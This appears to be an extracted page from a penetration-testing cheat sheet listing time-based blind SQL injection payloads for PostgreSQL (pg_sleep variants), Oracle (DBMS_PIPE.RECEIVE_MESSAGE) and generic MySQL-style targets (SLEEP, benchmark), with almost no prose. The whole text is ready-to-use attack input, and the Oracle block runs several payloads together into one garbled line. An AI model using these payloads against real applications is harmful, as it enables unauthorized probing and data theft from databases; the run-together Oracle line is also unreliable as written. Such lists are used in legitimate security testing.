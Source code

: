 ```
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
' SELECT pg_sleep(5);
or SELECT pg_sleep(5);
' SELECT pg_sleep(5);
1 AND 1337=(SELECT 1337 FROM PG_SLEEP(5))
1 AND 1337=(SELECT 1337 FROM PG_SLEEP(5))-- 1337
1' AND 1337=(SELECT 1337 FROM PG_SLEEP(5)) AND '1337'='1337
1') AND 1337=(SELECT 1337 FROM PG_SLEEP(5)) AND ('1337'='1337
1) AND 1337=(SELECT 1337 FROM PG_SLEEP(5)) AND (1337=1337
```

### Oracle Blind (Time Based): <a href="#id-4c1f" id="id-4c1f"></a>

### You can replace AND / OR <a href="#a711" id="a711"></a>

```
1 AND 1337=DBMS_PIPE.RECEIVE_MESSAGE(CHR(118)||CHR(71)||CHR(73)||CHR(86),5)1 AND 1337=DBMS_PIPE.RECEIVE_MESSAGE(CHR(118)||CHR(71)||CHR(73)||CHR(86),5)-- 1337' AND 1337=DBMS_PIPE.RECEIVE_MESSAGE(CHR(118)||CHR(71)||CHR(73)||CHR(86),5) AND '1337'='1337') AND 1337=DBMS_PIPE.RECEIVE_MESSAGE(CHR(118)||CHR(71)||CHR(73)||CHR(86),5) AND ('1337'='1337) AND 1337=DBMS_PIPE.RECEIVE_MESSAGE(CHR(118)||CHR(71)||CHR(73)||CHR(86),5) AND (1337=1337
```

### Generic Time Based SQL Injection Payloads: <a href="#id-00a7" id="id-00a7"></a>

```
sleep(5)#
(sleep 5)--
(sleep 5)
(sleep(5))--
(sleep(5))
-sleep(5)
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
";sleep 5--
";sleep 5
";sleep(5)--
";sleep(5)
";SELECT SLEEP(5); #
1 SELECT SLEEP(5); #
+ SLEEP(5) + '
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
;sleep 5--
;sleep 5
;sleep(5)--
;sleep(5)
;SELECT SLEEP(5); #
'&&SLEEP(5)&&'1
' SELECT SLEEP(5); #
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
ORDER BY SLEEP(5)
```